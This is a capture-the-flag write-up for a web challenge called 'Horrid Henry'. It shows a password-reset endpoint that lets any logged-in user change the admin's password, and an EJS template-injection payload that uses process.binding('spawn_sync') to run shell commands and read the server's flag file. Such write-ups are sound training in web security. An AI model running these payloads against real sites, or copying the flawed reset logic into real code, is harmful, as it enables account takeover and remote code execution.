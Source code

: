 #### Horrid Henry Writeup

Prompt:
```I hope you like my new blogging site. Currently, only the admin can post blogs. He has posted a few times, but he won't let anyone else see them. I remember he mentioned Henry in his first post.Please solve the challenge locally first.```

Author: `bond@james`

Points: `500`


We are provided the source code as well. Going through the source code, we find that there is a security flaw in reset password endpoint.
```js
app.post("/resetPassword", auth, async (req, res) => {
    const { username, newPassword } = req.body;
    const idx = users.findIndex(user => user.username === username);
    if (idx === -1) return res.status(404).send("User not found. ");
    try {
        const salt = await bcrypt.genSalt(10);
        const hashedPassword = await bcrypt.hash(newPassword, salt);
        users[idx] = { ...users[idx], password: hashedPassword }
        return res.send("Password reset successfully.")
    } catch (err) {
        console.log(err);
        return res.status(500).json({response: "Internal Server Error."})
    }
})
```

The endpoint only verifies whether the user is logged in or not, using the auth middleware (which verifies the auth token), then extracts the username and password from the request body, and changes the password for the username. So to reset some other user's password all we need to ensure is to be logged in and change the username in our request body. Using this we can change admin's password.
Steps: 
1. Register yourself.
2. Login.
3. Go to reset password endpoint.
4. Enter some password and change the username in request body. You can do it in any way you like, here I will do it in burpsuite:


![alt text](image.png)

![alt text](image-1.png)

![alt text](image-2.png)





Then logging as admin, we find two more options unlocked for us. `Add Post` and `Modify Post`. 

Going to the modify post, we find two posts by admin are disabled. After enabling them, we find:

Post 1:
```
Well, well, well...
Welcome to my everyday blog!

Yesterday, I was out with Henry. You might remember him from my last post, which was unfortunately deleted by mistake. He shared some secret information with me: pearl{not_so_easy_dude}. However, he told me that this is not the actual secret he wanted to share.

I'm curious to know the real secret, but he refuses to tell me. I wish he trusted me more.
```

This post indicates that the secret is not `pearl{not_so_easy_dude}` and there is a different secret that we may find.

Post 2:

```
I got access to Henry's system yesterday, but he caught me. He told me that the secret I am looking for is on my system but did not tell me its location. I wish someone would help me find it.
```

So this indicates that the secret is in admin's system! Looking over the files provided, it is named something like flag_somerandomtext.txt .

So our next objective is to find the exact file name and read its content.

Reading the source code again, we find the addPost endpoint:
```js
app.post("/addPost", auth, isAdmin, async (req, res) => {
    try {
        const user = "admin";
        const { content, title, visibility} = req.body;
        const [result, msg] = await addPost(content, title, visibility);
        if (result) {
            return res.status(200).json({ response: "Added Post." })
        } else {
            return res.json({response: "Failed to add post.", error: msg})
        }
    } catch (err) {
        console.log(err);
        return res.status(500).json( {response: "Internal server error. "})
    }
})
```

This function takes the content, heading and properties about the post and add them:

```js
async function addPost(content, heading, props) {
    try {
        const files = await fs.readdir("posts");
        const idx = files.length + 1;
        await fs.mkdir(`posts/${idx}`)
        await fs.writeFile(`posts/${idx}/content.ejs`, content)
        await fs.writeFile(`posts/${idx}/properties.json`, JSON.stringify({id: idx, author: "admin", title: heading, content: content.substring(0, 20) + "...", visibility: props.visibility}))
        return [true, ""];
    } catch (err) {
        return [false, err];
    }
}
```

Here we can see that our content is written into the content.ejs file, which is included into the post:
##### Contents of views/post.ejs:
```ejs
<div class="post-container">
    <h1><%= title %></h1>
    <div class="post-meta">
      By <%= author %>
    </div>
    <div class="post-content">
      <%- include(`../posts/${id}/content`) %>
    </div>
  </div>
```

So we directly control the ejs file and hence we can exploit this doing some EJS SSTI.

Payload:
```ejs
<%= process.binding("spawn_sync").spawn({file:"ls",args:["-l"],stdio:[{type:"pipe",readable:true,writable:false},{type:"pipe",readable:false,writable:true},{type:"pipe",readable:false,writable:true},],}).output.toString() %>
```

Then on visiting our new post, we can see the file names: (If it's not showing the file names with your payload (happens if you use \<\% in place of \<\%=), you can redirect the output to some file like register.ejs, login.ejs and visit their endpoints to see the content):

![alt text](image-3.png)

So now we have our flag file name, we can simply add another post with the following payload, (yes you can also cat the file if you want):

```ejs
<%- include('/app/flag_28ca7ho9ns.txt') %>
```

![alt text](image-5.png)


### FLAG!!
`pearl{th4ts_s0me_c00l_injection_you_f0und_th3r3_my_fri3nd}`

